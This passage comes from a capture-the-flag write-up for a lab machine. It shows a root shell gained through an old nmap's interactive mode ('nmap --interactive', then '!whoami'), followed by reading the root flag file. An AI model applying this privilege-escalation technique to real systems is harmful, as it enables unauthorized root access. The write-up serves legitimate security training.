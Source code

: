 ````
/usr/lib/pt_chown
````

Lets see what version nmap has, because in very old versions from 2.02 to 5.21 there was an interactive mode:

````
nmap --version            

nmap version 3.81 ( http://www.insecure.org/nmap/ )
````

It is a very old version. My installed version is 7.92.  
We now know that we can elevate our privileges with nmap:

````
robot@linux:/$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !whoami
!whoami
root
waiting to reap child : No child processes
nmap> 
````

Now we habe root privileges and can read the flag in the file key-3-of-3.txt:

````
nmap> !ls /root
!ls /root
firstboot_done	key-3-of-3.txt
waiting to reap child : No child processes
nmap> !cat /root/key-3-of-3.txt
!cat /root/key-3-of-3.txt
SomeFlagButFindItByYourself
waiting to reap child : No child processes
nmap>
````

